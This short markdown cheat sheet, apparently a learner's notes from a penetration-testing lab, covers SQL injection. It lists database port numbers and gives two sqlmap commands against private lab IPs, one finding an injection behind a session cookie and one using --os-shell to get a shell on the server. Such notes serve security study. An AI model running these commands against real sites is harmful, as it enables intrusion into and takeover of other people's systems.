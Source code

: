 <!-- https://cheatography.com/lucbpz/cheat-sheets/the-ultimate-markdown/ -->
# SQL Exploit Cheatsheet
## List of SQL Port Numbers
* **SQL Server**: tcp/1433
* **MySQL**: tcp/3306

## SLQ Injection
https://slides.com/christophe-cybr/sql-explained#/2


## sqlmap
command to find an sql injection vulnerability when there is security using cookies on a webpage
```console
~$ sqlmap -u 'http://10.129.70.193/dashboard.php?search=anything' --cookie="858ggvh5mjtb181j0grcb6nd3q"
```

perform an sql command injection on the above setup to spawn a shell
```console
~$ sqlmap -u 'http://10.129.45.252/dashboard.php?search=hello' --cookie="PHPSESSID=sk03u89dk558v7glib9enbl8l1" --os-shell
```
